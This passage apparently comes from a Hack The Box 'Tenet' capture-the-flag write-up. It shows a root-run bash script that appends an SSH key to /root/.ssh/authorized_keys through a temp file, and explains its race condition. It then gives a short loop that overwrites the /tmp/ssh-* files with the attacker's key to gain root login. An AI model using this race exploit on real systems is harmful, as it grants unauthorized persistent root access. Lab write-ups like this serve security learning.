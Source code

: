 checkFile() {

        if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then

                /bin/echo "Error in creating key file!"

                if [[ -f $1 ]]; then /bin/rm $1; fi

                exit 1

        fi

}

addKey() {

        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)

        (umask 110; touch $tmpName)

        /bin/echo $key >>$tmpName

        checkFile $tmpName

        /bin/cat $tmpName >>/root/.ssh/authorized_keys

        /bin/rm $tmpName

}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded
{{</code>}}

This script will basically create a temporary file with `mktemp -u /tmp/ssh-XXXXXXXX`, then check if the file is empty and if it is an actual file. If the check passes, the content of the `$key` variable will be appended to it. And finally the temporary will appended to `/root/.ssh/authorized_keys`.

The logic of this script opens the door for a potential race condition attack when the script is checking the newly created file (in the `checkFile()` function). 

To exploit it, we can create a script that will constantly update all temporary file by writting into them our ssh public key. We win the race if our update happens after the check, this will add our public key into `/root/.ssh/authorized_keys` effectively allowing us to login as root.

{{<code language="bash" title="Updating script">}}
while true; do
    for tempfile in $(ls /tmp/ssh-*); do
        echo "<KEY_HERE>" > $tempfile;
    done;
done
{{</code>}}

We will have to run `/usr/local/bin/enableSSH.sh` multiple times until we win the race (the updating script should be running in the background):

{{<figure src="/img/htb/tenet/race_won.png" position=center caption="Race Condition won">}}

We can now login as root with the corresponding private key and retrieve the root flag:

{{<figure src="/img/htb/tenet/root.txt.png" position=center caption="Root flag obtained !">}} 
